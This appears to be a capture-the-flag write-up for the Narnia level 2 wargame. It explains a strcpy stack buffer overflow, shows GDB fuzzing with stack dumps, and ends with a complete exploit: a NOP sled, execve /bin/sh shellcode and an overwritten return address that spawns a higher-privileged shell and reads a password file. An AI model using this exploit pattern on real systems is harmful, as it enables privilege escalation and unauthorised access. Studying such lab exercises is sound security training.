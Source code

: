 This is again another buffer overflow vulnerability in the binary file, the vulnerability is that the user input of “argv[1]” is copied directly into buffer called “buf” using the strcpy() function without any checking of the string and since the buffer is defined to be a length of 128 bytes in size if I send a string of more then 128 bytes I should be able to cause a buffer overflow in the binary’s execution.

Using GDB to debug my fuzzing of the potential buffer overflow. Using python I sent a string of increasing length of A’s until I caused a buffer overflow in the execution, I redid the overflow with the last 4 bytes in the string to be C’s to show the 4 bytes that overwrite the EIP register.

```
narnia2@melinda:/narnia$ gdb ./narnia2 -q
Reading symbols from /games/narnia/narnia2...(no debugging symbols found)...done.
(gdb) r $(python -c'print "\x41"*140 + "\x43"*4')
Starting program: /games/narnia/narnia2 $(python -c'print "\x41"*140 + "\x43"*4')
 
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb) x/300x $esp
0xffffd6a0:    0x00000000    0xffffd734    0xffffd740    0xf7fd3000
0xffffd6b0:    0x00000000    0xffffd71c    0xffffd740    0x00000000
0xffffd6c0:    0x0804821c    0xf7fceff4    0x00000000    0x00000000
0xffffd6d0:    0x00000000    0x8947ceb3    0xbe426aa3    0x00000000
0xffffd6e0:    0x00000000    0x00000000    0x00000002    0x08048370
0xffffd6f0:    0x00000000    0xf7ff0a90    0xf7e453c9    0xf7ffcff4
0xffffd700:    0x00000002    0x08048370    0x00000000    0x08048391
0xffffd710:    0x08048424    0x00000002    0xffffd734    0x08048490
0xffffd720:    0x08048500    0xf7feb660    0xffffd72c    0xf7ffd918
0xffffd730:    0x00000002    0xffffd85e    0xffffd874    0x00000000
0xffffd740:    0xffffd905    0xffffd915    0xffffd920    0xffffd944
0xffffd750:    0xffffd957    0xffffd960    0xffffd96d    0xffffde8e
0xffffd760:    0xffffde99    0xffffdea5    0xffffdef2    0xffffdf09
0xffffd770:    0xffffdf18    0xffffdf24    0xffffdf35    0xffffdf3e
0xffffd780:    0xffffdf51    0xffffdf59    0xffffdf69    0xffffdfa0
0xffffd790:    0xffffdfc0    0x00000000    0x00000020    0xf7fdb420
0xffffd7a0:    0x00000021    0xf7fdb000    0x00000010    0x1f898975
0xffffd7b0:    0x00000006    0x00001000    0x00000011    0x00000064
0xffffd7c0:    0x00000003    0x08048034    0x00000004    0x00000020
0xffffd7d0:    0x00000005    0x00000008    0x00000007    0xf7fdc000
0xffffd7e0:    0x00000008    0x00000000    0x00000009    0x08048370
0xffffd7f0:    0x0000000b    0x000036b2    0x0000000c    0x000036b2
0xffffd800:    0x0000000d    0x000036b2    0x0000000e    0x000036b2
0xffffd810:    0x00000017    0x00000000    0x00000019    0xffffd83b
0xffffd820:    0x0000001f    0xffffdfe2    0x0000000f    0xffffd84b
0xffffd830:    0x00000000    0x00000000    0xd8000000    0x47e342a2
0xffffd840:    0x00a63b75    0x9ab5f04d    0x6903f01d    0x00363836
0xffffd850:    0x00000000    0x00000000    0x00000000    0x672f0000
0xffffd860:    0x73656d61    0x72616e2f    0x2f61696e    0x6e72616e
0xffffd870:    0x00326169    0x41414141    0x41414141    0x41414141
0xffffd880:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd890:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8a0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8b0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8c0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8d0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8e0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd8f0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffd900:    0x43434343    0x45485300    0x2f3d4c4c    0x2f6e6962
0xffffd910:    0x68736162    0x52455400    0x74783d4d    0x006d7265
0xffffd920:    0x5f485353    0x45494c43    0x323d544e    0x312e3230
0xffffd930:    0x312e3435    0x322e3530    0x34203834    0x33353038
0xffffd940:    0x00323220    0x5f485353    0x3d595454    0x7665642f
0xffffd950:    0x7374702f    0x4c00372f    0x4c415f43    0x00433d4c
0xffffd960:    0x52455355    0x72616e3d    0x3261696e    0x5f534c00
0xffffd970:    0x4f4c4f43    0x723d5352    0x3a303d73    0x303d6964
0xffffd980:    0x34333b31    0x3d6e6c3a    0x333b3130    0x686d3a36
0xffffd990:    0x3a30303d    0x343d6970    0x33333b30    0x3d6f733a
0xffffd9a0:    0x333b3130    0x6f643a35    0x3b31303d    0x623a3533
0xffffd9b0:    0x30343d64    0x3b33333b    0x633a3130    0x30343d64
0xffffd9c0:    0x3b33333b    0x6f3a3130    0x30343d72    0x3b31333b
0xffffd9d0:    0x733a3130    0x37333d75    0x3a31343b    0x333d6773
0xffffd9e0:    0x33343b30    0x3d61633a    0x343b3033    0x77743a31
0xffffd9f0:    0x3b30333d    0x6f3a3234    0x34333d77    0x3a32343b
0xffffda00:    0x333d7473    0x34343b37    0x3d78653a    0x333b3130
0xffffda10:    0x2e2a3a32    0x3d726174    0x333b3130    0x2e2a3a31
0xffffda20:    0x3d7a6774    0x333b3130    0x2e2a3a31    0x3d6a7261
0xffffda30:    0x333b3130    0x2e2a3a31    0x3d7a6174    0x333b3130
0xffffda40:    0x2e2a3a31    0x3d687a6c    0x333b3130    0x2e2a3a31
0xffffda50:    0x616d7a6c    0x3b31303d    0x2a3a3133    0x7a6c742e
0xffffda60:    0x3b31303d    0x2a3a3133    0x7a78742e    0x3b31303d
0xffffda70:    0x2a3a3133    0x70697a2e    0x3b31303d    0x2a3a3133
0xffffda80:    0x303d7a2e    0x31333b31    0x5a2e2a3a    0x3b31303d
0xffffda90:    0x2a3a3133    0x3d7a642e    0x333b3130    0x2e2a3a31
0xffffdaa0:    0x303d7a67    0x31333b31    0x6c2e2a3a    0x31303d7a
0xffffdab0:    0x3a31333b    0x7a782e2a    0x3b31303d    0x2a3a3133
0xffffdac0:    0x327a622e    0x3b31303d    0x2a3a3133    0x3d7a622e
0xffffdad0:    0x333b3130    0x2e2a3a31    0x3d7a6274    0x333b3130
0xffffdae0:    0x2e2a3a31    0x327a6274    0x3b31303d    0x2a3a3133
0xffffdaf0:    0x3d7a742e    0x333b3130    0x2e2a3a31    0x3d626564
0xffffdb00:    0x333b3130    0x2e2a3a31    0x3d6d7072    0x333b3130
0xffffdb10:    0x2e2a3a31    0x3d72616a    0x333b3130    0x2e2a3a31
0xffffdb20:    0x3d726177    0x333b3130    0x2e2a3a31    0x3d726165
0xffffdb30:    0x333b3130    0x2e2a3a31    0x3d726173    0x333b3130
0xffffdb40:    0x2e2a3a31    0x3d726172    0x333b3130    0x2e2a3a31
```

After the buffer overflow was caused I used gdb to view the state of the stack at the time of the overflow, the memory address of 0xffffd904 was overwritten by the 4 C’s. Using the same shellcode as I did in the previous challenge I plan to include the shellcode in my buffer and have the memory address of 0xffffd904 jump back to a point in the buffer and begin executing my shellcode. As part of this proposed attack plan I need to verify the length of the shellcode as it is important to send the correct buffer length to the binary.

```
root@Phlegethon:~# python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
```

So the actual shellcode is 25 bytes in length, the string needs to be 144 bytes in length so I plan to fill the rest of the buffer up with NOPs and the last 4 bytes of the buffer to be the RET address of a memory address within the NOP sled. The below debugging in GDB was to be a PoC of the attack vector as well as to find the memory location of the RET address.

```
(gdb) r $(python -c'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43"*4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia2 $(python -c'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43"*4')
 
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb) x/250x $esp
0xffffd6a0:    0x00000000    0xffffd734    0xffffd740    0xf7fd3000
0xffffd6b0:    0x00000000    0xffffd71c    0xffffd740    0x00000000
0xffffd6c0:    0x0804821c    0xf7fceff4    0x00000000    0x00000000
0xffffd6d0:    0x00000000    0x86b43b80    0xb1b19f90    0x00000000
0xffffd6e0:    0x00000000    0x00000000    0x00000002    0x08048370
0xffffd6f0:    0x00000000    0xf7ff0a90    0xf7e453c9    0xf7ffcff4
0xffffd700:    0x00000002    0x08048370    0x00000000    0x08048391
0xffffd710:    0x08048424    0x00000002    0xffffd734    0x08048490
0xffffd720:    0x08048500    0xf7feb660    0xffffd72c    0xf7ffd918
0xffffd730:    0x00000002    0xffffd85e    0xffffd874    0x00000000
0xffffd740:    0xffffd905    0xffffd915    0xffffd920    0xffffd944
0xffffd750:    0xffffd957    0xffffd960    0xffffd96d    0xffffde8e
0xffffd760:    0xffffde99    0xffffdea5    0xffffdef2    0xffffdf09
0xffffd770:    0xffffdf18    0xffffdf24    0xffffdf35    0xffffdf3e
0xffffd780:    0xffffdf51    0xffffdf59    0xffffdf69    0xffffdfa0
0xffffd790:    0xffffdfc0    0x00000000    0x00000020    0xf7fdb420
0xffffd7a0:    0x00000021    0xf7fdb000    0x00000010    0x1f898975
0xffffd7b0:    0x00000006    0x00001000    0x00000011    0x00000064
0xffffd7c0:    0x00000003    0x08048034    0x00000004    0x00000020
0xffffd7d0:    0x00000005    0x00000008    0x00000007    0xf7fdc000
0xffffd7e0:    0x00000008    0x00000000    0x00000009    0x08048370
0xffffd7f0:    0x0000000b    0x000036b2    0x0000000c    0x000036b2
0xffffd800:    0x0000000d    0x000036b2    0x0000000e    0x000036b2
0xffffd810:    0x00000017    0x00000000    0x00000019    0xffffd83b
0xffffd820:    0x0000001f    0xffffdfe2    0x0000000f    0xffffd84b
0xffffd830:    0x00000000    0x00000000    0xf5000000    0xbddafb32
0xffffd840:    0xcf3fbc8c    0x499b46af    0x69664c26    0x00363836
0xffffd850:    0x00000000    0x00000000    0x00000000    0x672f0000
0xffffd860:    0x73656d61    0x72616e2f    0x2f61696e    0x6e72616e
0xffffd870:    0x00326169    0x90909090    0x90909090    0x90909090
0xffffd880:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd890:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd8a0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd8b0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd8c0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd8d0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd8e0:    0x90909090    0x31909090    0x2f6850c0    0x6868732f
0xffffd8f0:    0x6e69622f    0x5350e389    0xc289e189    0x80cd0bb0
0xffffd900:    0x43434343    0x45485300    0x2f3d4c4c    0x2f6e6962
0xffffd910:    0x68736162    0x52455400    0x74783d4d    0x006d7265
0xffffd920:    0x5f485353    0x45494c43    0x323d544e    0x312e3230
0xffffd930:    0x312e3435    0x322e3530    0x34203834    0x33353038
0xffffd940:    0x00323220    0x5f485353    0x3d595454    0x7665642f
0xffffd950:    0x7374702f    0x4c00372f    0x4c415f43    0x00433d4c
0xffffd960:    0x52455355    0x72616e3d    0x3261696e    0x5f534c00
0xffffd970:    0x4f4c4f43    0x723d5352    0x3a303d73    0x303d6964
0xffffd980:    0x34333b31    0x3d6e6c3a    0x333b3130    0x686d3a36
0xffffd990:    0x3a30303d    0x343d6970    0x33333b30    0x3d6f733a
0xffffd9a0:    0x333b3130    0x6f643a35    0x3b31303d    0x623a3533
0xffffd9b0:    0x30343d64    0x3b33333b    0x633a3130    0x30343d64
0xffffd9c0:    0x3b33333b    0x6f3a3130    0x30343d72    0x3b31333b
0xffffd9d0:    0x733a3130    0x37333d75    0x3a31343b    0x333d6773
0xffffd9e0:    0x33343b30    0x3d61633a    0x343b3033    0x77743a31
0xffffd9f0:    0x3b30333d    0x6f3a3234    0x34333d77    0x3a32343b
0xffffda00:    0x333d7473    0x34343b37    0x3d78653a    0x333b3130
0xffffda10:    0x2e2a3a32    0x3d726174    0x333b3130    0x2e2a3a31
0xffffda20:    0x3d7a6774    0x333b3130    0x2e2a3a31    0x3d6a7261
0xffffda30:    0x333b3130    0x2e2a3a31    0x3d7a6174    0x333b3130
0xffffda40:    0x2e2a3a31    0x3d687a6c    0x333b3130    0x2e2a3a31
0xffffda50:    0x616d7a6c    0x3b31303d    0x2a3a3133    0x7a6c742e
0xffffda60:    0x3b31303d    0x2a3a3133    0x7a78742e    0x3b31303d
0xffffda70:    0x2a3a3133    0x70697a2e    0x3b31303d    0x2a3a3133
0xffffda80:    0x303d7a2e    0x31333b31
```

So I chose the memory location of “0xffffd8c0” which is located in the middle of the NOP sled. I then took my exploit string and exploited the buffer overflow vulnerability to gain a shell with the privileges of the narnia3 and then cat the password file of narnia3.
```
narnia2@melinda:/narnia$ ./narnia2 $(python -c'print "\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc0\xd8\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
```
